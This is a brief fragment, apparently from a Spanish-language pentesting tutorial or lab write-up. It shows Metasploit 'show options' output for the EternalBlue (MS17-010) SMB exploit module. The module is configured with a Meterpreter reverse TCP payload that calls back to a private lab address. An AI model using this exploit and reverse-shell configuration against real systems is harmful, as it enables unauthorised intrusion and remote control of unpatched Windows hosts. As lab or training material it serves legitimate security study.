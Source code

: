 ### Mostrar opciones

```

>> Mostrar opciones

msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                             cs/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows
                                             Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Serv
                                             er 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2
                                             , Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.197.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue)
```
